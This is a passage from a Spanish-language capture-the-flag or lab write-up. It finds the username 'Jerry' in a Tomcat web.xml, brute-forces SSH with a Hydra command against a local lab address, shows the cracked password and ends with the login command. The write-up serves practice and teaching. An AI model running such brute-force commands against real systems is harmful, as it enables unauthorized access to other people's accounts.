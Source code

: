 ```
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat, Jerry ;)
  </description>

</web-app>
```

Vemos que encontramos el usuario `Jerry` por lo que le haremos fuerza bruta.

## Escalate user jerry

### Hydra

```shell
hydra -l jerry -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 12:53:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 24 final worker threads did not complete until end.
[ERROR] 24 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-27 12:53:25
```

Vemos que encontramos las credenciales de dicho usuario.

### SSH

```shell
ssh jerry@<IP>
```
